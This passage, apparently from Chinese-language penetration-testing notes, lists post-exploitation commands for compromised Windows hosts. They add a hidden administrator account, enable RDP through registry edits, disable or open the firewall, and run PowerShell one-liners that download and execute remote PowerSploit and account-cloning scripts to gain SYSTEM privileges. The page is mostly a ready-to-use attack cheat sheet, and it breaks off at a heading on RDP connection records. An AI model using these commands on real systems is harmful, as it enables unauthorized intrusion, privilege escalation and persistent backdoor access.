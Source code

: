 > 找路径，Linux 下使用命令 find -name *.jsp 来查找，Windows 下，使用 for /r c:\windows\temp\ %i in (file lsss.dmp) do @echo %i
>
> netstat -apn | grep 8888  kill -9 PID  查看端口并 kill

### 远程登录内网主机

判断是内网，还是外网，内网转发到 vps

> netstat -ano  没有开启 3389 端口,复查下
>
> tasklist /svc,查 svchost.exe 对应的 TermService 的 pid,看 netstat 相等的 pid 即 3389 端口.

### 在主机上添加账号

> net user admin1 admin1 /add & net localgroup administrators admin1 /add

如不允许远程连接，修改注册表 

> REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
>
> REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f

如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许 3389 端口，命令如下:

> netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow

关闭防火墙

> netsh firewall set opmode mode=disable

3389user 无法添加:

> http://www.91ri.org/5866.html

****隐藏 win 账户****

开启 sys 权限 cmd:

> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1');Invoke-TokenManipulation -CreateProcess 'cmd.exe' -Username 'nt authority\system'

add user 并隐藏:

> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/Windows-User-Clone/master/Windows-User-Clone.ps1')

win server 有密码强度要求，改为更复杂密码即可:

渗透技巧——Windows 系统的帐户隐藏

> https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/

windows 的 RDP 连接记录:
